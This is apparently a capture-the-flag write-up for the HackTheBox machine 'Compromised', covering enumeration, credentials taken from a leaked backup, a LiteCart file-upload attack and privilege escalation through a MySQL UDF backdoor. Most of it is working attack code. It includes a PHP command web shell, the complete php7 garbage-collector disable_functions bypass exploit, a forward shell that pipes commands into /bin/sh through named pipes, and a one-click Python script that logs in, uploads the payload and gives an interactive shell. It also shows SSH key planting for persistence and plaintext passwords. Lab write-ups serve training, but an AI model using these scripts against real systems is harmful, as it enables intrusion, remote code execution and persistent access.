

This box was really good one. It envolves you explore a box that was already compromissed with an attack. You get the source code of it, and get some creds. Then you upload a php malicious and I developed a pseudo reverse shell for it.

The root part is with ghidra, which one I did not complete because the lack of time. In te future I'll return here (I think) and do it completely. The auto "shell" is on the body.

Hope you enjoy!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.207
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

We try to open it on the browser


Seems to be a shop

We found a exploit for this version of litecart, but requires auth, so, no game


We run `Gobuster`, with .php files, once I know this is a php page

```sh
gobuster dir -u http://10.10.10.207 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
```


We found an interesting folder called backup

### /backup

We get it


And download the tgz file and extract it with `tar xvf a.tar.gz`


Performing some code analysis we found a instering comment on a php file in the admin folder


Seems that we have a file there, with a password. And that's it


We also have a connection database password in `/includes/config.inc.php`


We have the admin password

`User: admin Passwd: theNextGenSt0r3!~`

Ok, let's login as admin on the website


I'll try to use the exploit from searchsploit, but I had many troubles with the exploit.

## Exploit

Looking for vulnerabilities on the website we found a place which we can upload files


We try to upload a simple XML file


And it's uploaded normally


### Change Exploit

With the exploit in mind, and knowing the injection point, let's try to reproduce the exploit, because if we just execute the exploit it did not work well


We see the file it tryes to upload is this

```py
files = {
        'vqmod': (rand + ".php", "<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```

Ok, really seems to be a legit file upload, as we see on the burp request

```
-----------------------------371541395921355354921510851860
Content-Disposition: form-data; name="token"

db82b215dd29dae34d14deb5b014f4e1b85f42e4
-----------------------------371541395921355354921510851860
Content-Disposition: form-data; name="vqmod"; filename="list.xml"
Content-Type: text/xml

TEST FILE
-----------------------------371541395921355354921510851860
Content-Disposition: form-data; name="upload"

Upload
-----------------------------371541395921355354921510851860--
```

Let's try to simple reproduce it on burp, but now with a `<?php phpinfo(); ?>` cmd, we interpect an upload request on burp suite, and make the changes


Ok, file uploaded


And then we access the file

`http://10.10.10.207/shop/vqmod/xml/phpinfo.php`


We see on the disabled functions the main functions to get RCE


So, there is no way to use them now. I could use the function `file_get_contents` and `scandir` which are not set as blacklist to read the content of /etc/passwd or any file, just for PoC

Got this snnipet from 0xdf

```php
<?php
if (isset($_REQUEST['file'])) { 
    echo file_get_contents($_REQUEST['file']);
} 

if (isset($_REQUEST['dir'])) {
    print_r(scandir($_REQUEST['dir']));
}

?>
```


Ok, saved


We can read the /home


And the /etc/passwd


The next step is get a reverse shell on this box, and then automate it

So, I spent a good time trying to read ssh keys and something like that, but nothing worked, so I found [this](https://raw.githubusercontent.com/mm0r1/exploits/master/php7-gc-bypass/exploit.php) bypass for `disabled_functions` and the version matched, so we can use it to upload our palyoad

Just add this code to the top of the exploit

```php
if (isset($_REQUEST['cmd'])) {
    pwn($_REQUEST['cmd']);
}
```


And here we have RCE


We build a simple reader in shell to keep with a "pseudo shell"

```sh
#!/bin/bash
# 0x4rt3mis
# Shell "pseudo" - Compromissed HackTheBox

echo "exit for exit"
input=""
while [ "$input" != "exit" ]
do
    echo -n "> "
    read input
    curl -GET http://10.10.10.207/shop/vqmod/xml/payload.php --data-urlencode "cmd=$input"
done
```


We have a pseudo interactive shell, we must do that in python now, because I want to have it automated in a one click script.

I got the forward shell from [ippsec](https://github.com/IppSec/forward-shell)

I do some modifications, on the url, and the data which were being sent to the server, so it's fully working.

forward-shell.py

```py
#!/usr/bin/python3
# -*- coding: utf-8 -*-
# Forward Shell Skeleton code that was used in IppSec's Stratosphere Video
# -- https://www.youtube.com/watch?v=uMwcJQcUnmY
# Authors: ippsec, 0xdf

import base64
import random
import requests
import threading
import time

class WebShell(object):

    # Initialize Class + Setup Shell, also configure proxy for easy history/debuging with burp
    def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
        # MODIFY THIS, URL
        self.url = r"http://10.10.10.207/shop/vqmod/xml/payload.php"
        self.proxies = {'http' : proxies}
        session = random.randrange(10000,99999)
        print(f"[*] Session ID: {session}")
        self.stdin = f'/dev/shm/input.{session}'
        self.stdout = f'/dev/shm/output.{session}'
        self.interval = interval

        # set up shell
        print("[*] Setting up fifo shell on target")
        MakeNamedPipes = f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"
        self.RunRawCmd(MakeNamedPipes, timeout=0.1)

        # set up read thread
        print("[*] Setting up read thread")
        self.interval = interval
        thread = threading.Thread(target=self.ReadThread, args=())
        thread.daemon = True
        thread.start()

    # Read $session, output text to screen & wipe session
    def ReadThread(self):
        GetOutput = f"/bin/cat {self.stdout}"
        while True:
            result = self.RunRawCmd(GetOutput) #, proxy=None)
            if result:
                print(result)
                ClearOutput = f'echo -n "" > {self.stdout}'
                self.RunRawCmd(ClearOutput)
            time.sleep(self.interval)
        
    # Execute Command.
    def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
        #print(f"Going to run cmd: {cmd}")
        # MODIFY THIS: This is where your payload code goes
        payload = cmd

        if proxy:
            proxies = self.proxies
        else:
            proxies = {}
       
        # MODIFY THIS: Payload in User-Agent because it was used in ShellShock
        data = {'cmd': payload}
        try:
            r = requests.post(self.url, data=data, proxies=proxies, timeout=timeout)
            return r.text
        except:
            pass
            
    # Send b64'd command to RunRawCommand
    def WriteCmd(self, cmd):
        b64cmd = base64.b64encode('{}\n'.format(cmd.rstrip()).encode('utf-8')).decode('utf-8')
        stage_cmd = f'echo {b64cmd} | base64 -d > {self.stdin}'
        self.RunRawCmd(stage_cmd)
        time.sleep(self.interval * 1.1)

    def UpgradeShell(self):
        # upgrade shell
        UpgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
        self.WriteCmd(UpgradeShell)

prompt = "0x4rt3mis> "
S = WebShell()
while True:
    cmd = input(prompt)
    if cmd == "upgrade":
        prompt = ""
        S.UpgradeShell()
    else:
        S.WriteCmd(cmd)
```


# Auto Pseudo Shell

So, let's fully automate it with auto upload of the file and pseudo-interactive shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


full_pseudo.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Read output from a pseudoshell
# Compromissed HackTheBox

import argparse
import requests
import sys
import os

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
def setPseudo(url):
    url_prefix = url + "?cmd=echo -n $(whoami)':'$(pwd):$ "
    req = r.get(url_prefix, proxies=proxies)
    prefix = req.text
    url_restore = url
    cmd = ""
    while cmd != "exit":
        url = url_restore
        cmd = input(prefix)
        url = url + "?cmd=" + cmd
        output = r.get(url,proxies=proxies)
        print()
        print(output.text) 
        prefix = req.text
        url = url_restore

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-u', '--url', help='URL where the php is stored', required=True)
    args = parser.parse_args()
    
    url = args.url

    '''Here we call the functions'''
    setPseudo(url)

if __name__ == '__main__':
    main()
```

Now, let's make the part to upload the malicious php too

Here it is


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Read output from a pseudoshell
# Compromissed HackTheBox

import argparse
import requests
import sys
import os
import re
import urllib

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Let's login on the admin panel
def loginPage(rhost):
    print("[+] Let's Login ! [+]")
    url = "http://%s:80/shop/admin/login.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"username": "admin", "password": "theNextGenSt0r3!~", "login": "true"}
    r.post(url, headers=headers, data=data, proxies=proxies, allow_redirects=True)
    print("[+] Loged In Succeess !! [+]")

# Let's upload it
def maliciousUpload(rhost):
    print("[+] Let's upload the malicious file !! [+]")
    url = "http://%s/shop/admin/?app=vqmods&doc=vqmods" %rhost
    token_get = r.get(url, proxies=proxies, cookies=r.cookies)
    token = re.search('input.+?name="token".+?value="(.+?)"', token_get.text).group(1)
    data = '''<?php
if (isset($_REQUEST['cmd'])) {
    pwn($_REQUEST['cmd']);
}
pwn("uname -a");
function pwn($cmd) {
    global $abc, $helper;
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }
    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }
    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);
        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);
        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);
            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }
        if(!$data_addr || !$text_size || !$data_size)
            return false;
        return [$data_addr, $text_size, $data_size];
    }
    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;
            return $data_addr + $i * 8;
        }
    }
    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) { # ELF header
                return $addr;
            }
        }
    }
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) { # system
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    class ryat {
        var $ryat;
        var $chtg;
        
        function __destruct()
        {
            $this->chtg = $this->ryat;
            $this->ryat = 1;
        }
    }
    class Helper {
        public $a, $b, $c, $d;
    }
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
    $n_alloc = 10; # increase this value if you get segfaults
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_repeat('A', 79);
    $poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';
    $out = unserialize($poc);
    gc_collect_cycles();
    $v = [];
    $v[0] = ptr2str(0, 79);
    unset($v);
    $abc = $out[2][0];
    $helper = new Helper;
    $helper->b = function ($x) { };
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
    # leaks
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
    # fake value
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
    $closure_obj = str2ptr($abc, 0x20);
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler
    ($helper->b)($cmd);
    exit();
}
?>
'''
    multipart_data = {
        'token' :(None, token),
        'vqmod': ('0x4rt3mis.php', data, "application/xml"),
        'upload' : (None,"Upload")
    }
    upload = r.post(url, files=multipart_data, proxies=proxies)
    print("[+] Malicious Uploadedeee !! [+]")
    
# Start the pseudo shell
def setPseudo(rhost):
    url = "http://%s/shop/vqmod/xml/0x4rt3mis.php" %rhost
    url_prefix = url + "?cmd=echo -n $(whoami)':'$(pwd):$ "
    req = r.get(url_prefix, proxies=proxies)
    prefix = req.text
    url_restore = url
    cmd = ""
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    while cmd != "exit":
        url = url_restore
        cmd = input(prefix)
        cmd = urllib.parse.quote_plus(cmd, safe='\"\'()/')
        data = "cmd=%s" %cmd
        output = r.post(url,headers=headers,data=data,proxies=proxies)
        print()
        print(output.text) 
        prefix = req.text
        url = url_restore

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    rhost = args.target

    '''Here we call the functions'''
    # Login on the app
    loginPage(rhost)
    # Upload the malicious php
    maliciousUpload(rhost)
    # Use as pseudoshell
    setPseudo(rhost)

if __name__ == '__main__':
    main()
```

Now we can continue in our exploration on this box.

# MYSQL UDF

After a hard enumeration, and nothing useful, looking at the name of the box and googling it we found a way to explore it

We found [this](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/) article which explains it very well.

So we see all functions created

```sh
mysql -u root -pchangethis -e "select * from mysql.func;"
```


Whoops, exec_cmd is created, awesome! Is that what we need!

We know can execute commands in it, so let's upload a ssh key there to have persistense as mysql user

```sh
ssh-keygen -t ed25519 -f 0x4rt3mis
```


And now we add the key to authorized_keys

```sh
mysql -u root -pchangethis -e "select exec_cmd('mkdir /var/lib/mysql/.ssh')"
mysql -u root -pchangethis -e "select exec_cmd('echo ssh-ed25519 ABCD root@kali > /var/lib/mysql/.ssh/authorized_keys')"
```

Great


Now, just enter as mysql in ssh with the key


# Mysql --> sysadmin

Now, let's start our privilege escalation

When we got the mysql shell we see a bunch of unsual files on home dir

The one called more my attention was the `strace` one, which is indicative of a possbile keylloger on the system, strace is a program designed to intercept and display or log system calls made by another processes.


Giving a strings with password grepping we found some interesting things


`3*NLJE32I$Fe` and it works for ssh too

```sh
sshpass -p '3*NLJE32I$Fe' ssh sysadmin@10.10.10.207
```


# sysadmin --> root

The root path is trough analysis of a binary from dpkg and analysis it with ghydra. I'll not show it know for the lack of time. But I'll return here in the future to make it, I read from other blogs and the password to root is this, after you analyse the binary.

```sh
echo "7a6c6b657e5533456e7638326d322d" | xxd -r -p
```


And we become root


# Source Code Analysis

We already did some sort of code analysis but is good to see it on the box

Looking at the request to upload a file we see to params being passed as GET on the POST request to upload a file


```sh
grep -l -R -e "\$_GET\['doc'\]" $(grep -l -R -e "\$_GET\['app'\]" `grep -l -R -e vqmods`)
```

